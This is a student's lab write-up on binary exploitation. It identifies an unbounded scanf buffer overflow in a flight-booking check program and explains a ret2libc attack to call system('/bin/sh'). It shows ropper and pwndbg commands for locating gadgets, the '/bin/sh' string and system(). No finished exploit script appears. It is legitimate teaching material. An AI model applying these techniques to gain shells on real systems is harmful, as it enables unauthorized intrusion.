 # Laborator 3

### [Q1]: Where are these hundreds of functions?
### Solution to [Q1]:
The functions are here: `/usr/lib/x86_64-linux-gnu/libc.so.6` and the dynamic linker loads these functions into my program's virtual memory. If ASLR is enabled the address of the libc will vary between runs.

## Exercise 1

### [Q2]: Explore the program. What does it do? Where is the vulnerability?
### Solution to [Q2]:
The program checks if a passenger is booked on a specific airline.  The vulnerability lies in the buffer overflow risk when reading the `char name[64];` input in `check_booking()`. The `scanf("%s", name)` call does not limit input length, allowing users to overflow the `name` buffer.

### [Q3]: How does ret2libc fit into this? What are some nice libc functions for exploitation?
### Solution to [Q3]:
We can overwrite the return address to a libc function like `system()` or `exit()`, passing a crafted argument (`/bin/sh`).

### [Q4]: Can we get a shell with this program? How?
### Solution to [Q4]:
We pass the `/bin/sh` argument to the `system()` function.

## Solution to Exercise 1: 
Find address of `pop rdi; ret` gadget:
```c
ropper --file ./bin/ex1 --search "pop rdi"
```

Find address of `/bin/sh`:
```c
pwndbg> search -t string "/bin/sh"
Searching for string: b'/bin/sh\x00'
libc.so.6       0x7ffff7f7042f 0x68732f6e69622f /* '/bin/sh' */
```

Find address of `ret` gadget:
```c
ropper --file ./bin/ex1 --search "ret"
```

Find address of `system()`:
```c
pwndbg> p system
$1 = {int (const char *)} 0x7ffff7dfd740 <__libc_system>
```
